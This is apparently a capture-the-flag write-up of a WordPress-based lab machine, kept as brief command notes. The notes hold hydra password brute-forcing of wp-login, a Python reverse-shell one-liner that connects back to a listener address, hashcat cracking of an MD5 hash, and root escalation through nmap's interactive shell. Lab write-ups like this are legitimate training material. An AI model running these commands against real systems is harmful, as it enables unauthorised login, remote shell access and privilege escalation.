 ### Gobuster get the login page and credential list

### Hydra for wp-admin account
```
hydra -L name -p 123456 $ip http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.45.120%2Fwp-admin%2F&testcookie=1:F=Invalid username" -V

[80][http-post-form] host: 10.10.45.120   login: Elliot   password: 123456

hydra -l Elliot -P fsocity.dic $ip http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.45.120%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

ER28-0652
```

### Theme 404 reverse shell

### Python stable shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.3.98",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### Horizontal Privilege Escalation
```
hashcat -a 0 -m 0 hash rockyou.txt
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```

### Now we have the robot, Final Privilege Escalation
```
su robot
./linpeas.sh | tee linout.txt
nmap --interactive
nmap> !sh
```
